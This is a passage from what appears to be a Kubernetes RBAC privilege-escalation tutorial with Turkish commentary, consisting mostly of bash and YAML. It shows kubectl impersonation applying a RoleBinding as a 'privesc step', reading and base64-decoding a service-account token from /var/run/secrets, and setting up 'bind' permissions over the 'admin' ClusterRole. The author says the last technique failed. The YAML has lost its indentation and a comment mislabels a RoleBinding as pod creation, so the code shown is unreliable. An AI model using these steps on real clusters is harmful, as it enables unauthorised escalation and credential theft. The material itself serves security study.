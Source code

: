 ```bash

# Create a pod as user Test with the SA test-sa (privesc step)
echo "apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: test-r2
subjects:
- kind: ServiceAccount
name: test-sa2
apiGroup: ""
roleRef:
kind: Role
name: test-r2
apiGroup: rbac.authorization.k8s.io"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default test-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete rolebinding test-rb
kubectl delete rolebinding test-rb2
kubectl delete role test-r
kubectl delete role test-r2
kubectl delete serviceaccount test-sa
kubectl delete serviceaccount test-sa2
```
### Bind explicitly Bindings

"[Privilege Escalation Prevention and Bootstrapping](https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/)" bölümünde, bir SA'nın bir Binding oluşturabilmesi ve Role/Cluster role üzerinde açıkça Bind izinlerine sahip olması durumunda, izinlere sahip olmadığı Roles/ClusterRoles ile bile bindingler oluşturabileceği belirtiliyor.\
Ancak, bu benim için işe yaramadı:
```yaml
# Create 2 SAs, give one of them permissions to create clusterrolebindings
# and bind permissions over the ClusterRole "admin"
echo 'apiVersion: v1
kind: ServiceAccount
metadata:
name: test-sa
---
apiVersion: v1
kind: ServiceAccount
metadata:
name: test-sa2
---
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
name: test-cr
rules:
- apiGroups: ["rbac.authorization.k8s.io"]
resources: ["clusterrolebindings"]
verbs: ["get", "create"]
- apiGroups: ["rbac.authorization.k8s.io/v1"]
resources: ["clusterroles"]
verbs: ["bind"]
resourceNames: ["admin"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
```